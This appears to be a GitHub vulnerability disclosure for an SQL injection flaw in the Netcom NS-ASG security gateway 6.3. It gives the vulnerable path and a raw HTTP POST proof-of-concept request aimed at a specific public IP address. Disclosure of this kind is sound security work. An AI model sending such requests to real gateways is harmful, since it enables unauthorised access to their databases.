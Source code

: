 Beijing Wangkang Technology Co., Ltd. is a leading provider of network application management equipment in China, focusing on the latest trend research and analysis in the field of network application management. It provides users with advanced network application management technology, products, and solutions, aiming to help users achieve the goal of "using the internet well" in network management.

There is an SQL injection vulnerability in the Netcom NS-ASG application security gateway. Attackers exploit vulnerabilities to cause harm to servers.

official： https://www.netentsec.com/

version:6.3

Vulnerability Path ：/protocol/log/listloginfo.php

<img width="519" alt="image" src="https://github.com/flyyue2001/cve/assets/88701694/471afe00-2e3f-4112-9e70-93c4c16f60f8">
<img width="516" alt="image" src="https://github.com/flyyue2001/cve/assets/88701694/47c8c3c9-bd6e-4b6a-8a89-3288636585de">


```
POST /protocol/index.php HTTP/1.1
Host: 1.85.53.53
Cookie: PHPSESSID=bfd2e9f9df564de5860117a93ecd82de
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/110.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 57

jsoncontent={"protocolType":"list_log_info","search":"1"}
```
<img width="520" alt="image" src="https://github.com/flyyue2001/cve/assets/88701694/e6f436eb-df7d-409d-bb5b-833014147e19">

